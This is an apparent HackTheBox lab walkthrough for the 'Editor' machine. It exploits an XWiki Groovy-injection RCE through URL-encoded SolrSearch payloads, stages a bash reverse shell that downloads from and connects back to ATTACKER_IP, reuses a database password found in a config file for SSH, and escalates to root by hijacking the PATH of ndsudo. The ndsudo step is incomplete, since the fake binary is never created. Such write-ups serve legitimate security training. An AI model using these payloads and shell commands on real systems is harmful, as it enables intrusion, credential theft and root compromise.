 ## 📝 Description

This walkthrough details the exploitation of the HackTheBox machine
**Editor**, which runs XWiki and contains a privilege escalation vector
via `ndsudo` PATH hijacking. The steps cover enumeration, remote code
execution (RCE), lateral movement, and privilege escalation to root.

------------------------------------------------------------------------

## 1. Enumeration

Initial port scan:

``` bash
nmap -p- -sV 10.10.11.80
```

**Results:**

    22/tcp   open  ssh
    80/tcp   open  http
    8080/tcp open  http

Port 80 redirects to **editor.htb**, and port 8080 is running **XWiki
15.10.8**.

------------------------------------------------------------------------

## 2. Initial Foothold - XWiki RCE (CVE-2025-24893)

Verify RCE using the SolrSearch endpoint:

``` bash
curl -i "http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D'whoami'.execute().text%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D"
```

**Output:**

    xwiki

Confirmed RCE.

### Stage 1: Host reverse shell script

On attacker machine:

``` bash
cat <<'EOF' > shell.sh
#!/bin/bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
EOF

chmod +x shell.sh
python3 -m http.server 8000
```

### Stage 2: Download shell script on target

``` bash
curl -i "http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D'curl%20-o%20/tmp/shell.sh%20http://ATTACKER_IP:8000/shell.sh'.execute().text%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D"
```

### Stage 3: Execute the reverse shell

Start listener:

``` bash
nc -lvnp 4444
```

Trigger the script:

``` bash
curl -i "http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D'bash%20/tmp/shell.sh'.execute().text%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D"
```

You get a reverse shell as `xwiki`.

------------------------------------------------------------------------

## 3. User Privilege Escalation (to oliver)

Find database credentials:

``` bash
grep -i password /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml
```

**Output:**

``` xml
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

Switch to `oliver` via SSH:

``` bash
ssh oliver@10.10.11.80
# Password: theEd1t0rTeam99
```

Read the user flag:

``` bash
cat ~/user.txt
```

**Output:**

    f253a<REDACTED>
------------------------------------------------------------------------

## 4. Root Privilege Escalation (ndsudo → nvme hijack)

Locate `ndsudo`:

``` bash
find / -name ndsudo 2>/dev/null
```

**Output:**

    /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo

Create fake `nvme` binary:

``` bash
cp /tmp/nvme /tmp/nvme-list
chmod +x /tmp/nvme-list
export PATH=/tmp:$PATH
```

Run with `ndsudo`:

``` bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

You now have a root shell.

------------------------------------------------------------------------

## 5. Root Flag

Switch to `/root` and grab the flag:

``` bash
cd /root
cat root.txt
```

------------------------------------------------------------------------

## 6. Flags

    User: <REDACTED>
    Root: <REDACTED>

------------------------------------------------------------------------

## ✅ Summary

-   **XWiki RCE (CVE-2025-24893)** → Remote shell as `xwiki`
-   Extracted password from `hibernate.cfg.xml` → SSH to `oliver`
-   Exploited `ndsudo` via PATH hijacking → Root shell
